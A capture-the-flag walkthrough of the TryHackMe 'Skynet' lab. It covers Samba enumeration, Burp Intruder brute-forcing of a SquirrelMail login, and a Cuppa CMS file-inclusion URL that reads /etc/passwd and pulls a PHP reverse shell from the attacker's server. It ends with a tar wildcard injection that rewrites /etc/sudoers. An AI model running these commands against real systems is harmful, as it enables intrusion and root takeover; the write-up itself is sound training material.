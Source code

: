 # [Skynet](https://tryhackme.com/room/skynet)

> Difficulty: Easy

<details>
  <summary>Scanning</summary>


# Scanning
We run an NMAP with  
```
nmap -sV targetmachineIP
```

+ `-sV`: Not only checks for open ports but the version of the service running.

![image](https://user-images.githubusercontent.com/115602464/195729150-4dab67da-e7ae-4a20-9404-8c3a921d1ed6.png)

Two things pop out to me here. There is a website being hosted on port 80 and samba is running on 139 and 445.

+ `Samba`: is a program that allows users to access shared files, printers, and other resources on a company's intranet.

</details>
  
  
<details>
  <summary>Enumeration</summary>


# Enumeration

Heading over to the target machines IP address in our browser we can see some sort of search engine called "Skynet".

![image](https://user-images.githubusercontent.com/115602464/195732140-1b93ad4d-7a80-4c5f-8d1a-398f288c23b8.png)

Searches don't give results, and the page source provides us with nothing important. 

Let's move on and start a dirb scan which will check for hidden directories and while that is running we will enumerate the samba service.


![image](https://user-images.githubusercontent.com/115602464/195738346-7b486a45-66af-4cc8-a115-5efb7dc1216e.png)

The dirb scan revealed a /squirrelmail/ directory. Let's check it out!

![image](https://user-images.githubusercontent.com/115602464/195739255-2b733e92-9225-4a64-ba0d-48759310adaa.png)

We are given a login form for an email application.

The hint for flag 1 is "Enumerate Samba".

Enumerating the samba service will give us some information on what kind of shares/users are available.

We will use a piece of software called enum4linux. Enum4linux enumerates Windows and Samba systems. [Info](https://www.kali.org/tools/enum4linux/#:~:text=Enum4linux%20is%20a%20tool%20for,%2C%20rpclient%2C%20net%20and%20nmblookup.)
```
enum4linux targetmachineIP
```


The results from enum4linux show us three important pieces of information:

+ `Server`: The server name is `SKYNET`.
+ `Users`: There is a `Miles Dyson` user.
+ `Shares`: There are three shares available, `PRINT$, Miles Dyson, Anonymous`.


![image](https://user-images.githubusercontent.com/115602464/195744944-d73f3b69-2eec-4d83-8520-2ee8a9664c02.png)

The anonymous share is something we can access without credentials!

Lets Access the share using smbclient. We simply provide the IP address of the server and the share we are accessing.

```
smbclient '\\targetmachineIP\Anonymous\'
```
You will be asked for a root password, hit enter and you're logged in as Anonymous!

![image](https://user-images.githubusercontent.com/115602464/195746239-a5cc15e7-0dc1-422d-8cb7-e1e99e0fb4a1.png)

We can download the attention.txt file with `get attention.txt`.

Let's also `cd` into logs and `get` the log1.txt. We will not download log2.txt and log3.txt because we see they are empty.

They will be in the pwd directory of your terminal. Simply run `quit` to exit smbclient.

Lets open up all of the files and see their contents. .

![image](https://user-images.githubusercontent.com/115602464/195748875-eaa4de15-1157-4543-b016-778f1b2adaee.png)

![image](https://user-images.githubusercontent.com/115602464/195748923-5a8f30b5-2b09-4b54-85cc-a6e9a01bb3a8.png)

We can see that there is a user named Miles Dyson, which we enumerated earlier with enum4linux, and log1.txt contained what seems to be a password list.

The list is fairly short in this case and you could manually try the passwords one by one, but let's go through the process as if the list contained a much larger password count.

The two similar tools I use in this situation is Hydra and burp suite intruder. In this case I chose burp suite.

Open up burp suite, start a temporary project, and use burp defaults. 

If you are on the attackBOX for tryhackme your firefox will have an addon called foxyproxy. It will have been configured to work with burp suite.

Turn on firefox, and click on the foxyproxy icon on the top right and select the green burp option. Your burp suite will now intercept your traffic.

![image](https://user-images.githubusercontent.com/115602464/195750364-fc218588-a37e-4579-8d5a-188181b8b6ce.png)

If you are using your own machine and are using a VPN to work on this room, check out this [Guide](https://null-byte.wonderhowto.com/how-to/use-burp-foxyproxy-easily-switch-between-proxy-settings-0196630/).

Once that is on, go to the squirrelmail login form, enter milesdyson for user and enter any random characters for pass. Check your proxy tab inside burp. There should be a POST request that looks like this:

![image](https://user-images.githubusercontent.com/115602464/195753047-94590f91-cc27-443d-a2a9-9ea4f51f0e13.png)

Right click on this and send it to intruder. Hit clear on the right side. We need to select the location in the request that will be attacked with intruder.

In this case we assume we know the correct username, milesdyson, so we just need to get the correct password.

Highlight the password that you typed in earlier in the login form and click the ADD button on the right side. 

Your request should only have the password part of the form highlighted with symbols around your pass:

![image](https://user-images.githubusercontent.com/115602464/195753133-878f7c15-7c64-4a54-b503-8d62583eb2b6.png)

Click on the payloads tab at the top, highlight and copy all of the passwords in the log1.txt file, and paste them into the payload options section.

![image](https://user-images.githubusercontent.com/115602464/195753604-3c1e0c57-f641-444a-8575-819ec0853f33.png)

Your attack is ready, just hit start attack at the top right of burp!

You should notice fairly quickly that there is one password that stands out. It will stand out because the response code will be different than the rest.

![image](https://user-images.githubusercontent.com/115602464/195754208-60a84a13-ebe3-4411-ae52-fd2ff75da949.png)

Login with milesdyson and your new found password to explore his mail.

We see an email containing an SMB password reset!

Lets use smbclient to login as milesdyson.

```
smbclient '\\targetmachineIP\milesdyson\' -U milesdyson
```
After looking around a bit we can see a notes directory with a file called `important.txt`. Lets `get` the file and `cat` it on our machine.

The contents seem to be a to-do list with the very first item being `Add features to beta CMS /45kra24zxs28v3yd`.

The `/45kra24zxs28v3yd` is a directory. Lets go to `targetmachineIP/45kra24zxs28v3yd`.

![image](https://user-images.githubusercontent.com/115602464/195756477-77cd0b84-afc1-4f8d-a90a-b4ce48a292a2.png)

There doesn't seem to be anything important here. Lets run dirb to find any directories hidden within this one.

```
dirb http://10.10.209.119/45kra24zxs28v3yd/
```

One of the directories that is found is /administrator.

![image](https://user-images.githubusercontent.com/115602464/195756685-5b5372c6-bf98-434e-bd5d-29e0c7cc4315.png)

Visiting /administrator we see a cuppa CMS login. 

</details>
  
  
<details>
  <summary>Exploitation</summary>  
  
# Exploitation

Before trying to attack the login form, lets see if there is an exploit that exists for `Cuppa CMS`.

![image](https://user-images.githubusercontent.com/115602464/195757669-54b67500-1807-4f4f-96f5-347a68db60ff.png)

Reading the exploit page we can see that this isn't a python script. This is a remote file inclusion vulnerability. This exploit can be done through the URL.

![image](https://user-images.githubusercontent.com/115602464/195758051-adf1f722-573c-40ee-b687-f8e3bc75619d.png)


We can test this by running the command

```
http://10.10.209.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

Since this works we can use the first example in the picture above to load up a php reverse shell.

Lets download a php reverse shell and modify the IP to match our machine and the port to be 1337.

We also need to start a python http server. We can do this with `python2 -m SimpleHTTPServer 4444`.

Place the reverse shell in the directory where you ran your python server.

Your reverse shell should look like this:

![image](https://user-images.githubusercontent.com/115602464/195759360-550fbe15-c027-4f1a-a466-190a4cdf8920.png)

Lets also host a listener on our attacker machine. This can be done with `nc -lvnp 1337`.

At this point we should have a listener on port 1337 and our python server on port 4444.

Now on the target machine we can access the revshell by going to our python server. Your IP will be different but it should look something like this:

`http://10.10.209.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.100.47:4444/revshell.php`

Check your listener and you should have a reverse shell!

Lets look around a little bit. There is a milesdyson folder in the home directory.

![image](https://user-images.githubusercontent.com/115602464/195760575-9c06e4d8-6219-4139-9acd-c3e972f93b7a.png)

The user flag is inside user.txt.

</details>

<details>
  <summary>Escalation</summary>
  
# Escalation

The backups folder contains a backup.sh file:

![image](https://user-images.githubusercontent.com/115602464/195760730-62664aec-e164-4225-9be7-dccf7a976c8d.png)

This shell script has a wildcard exploit. [More info here](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)

We can exploit this by changing into the /var/www/html directory and running:

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```

Lets upgrade our shell a little bit to be able to run `sudo -l`.

```
python -c 'import pty;pty.spawn("/bin/bash")';
```

After a couple of minutes we run `sudo -l`:

![image](https://user-images.githubusercontent.com/115602464/195761720-4a9a84b6-9183-41e3-a8ba-d12f80c505b4.png)

Great! Lets get the root.txt file and get our last flag!

![image](https://user-images.githubusercontent.com/115602464/195762012-08b427cb-439d-4f07-a25a-97d0739a97f1.png)


</details>
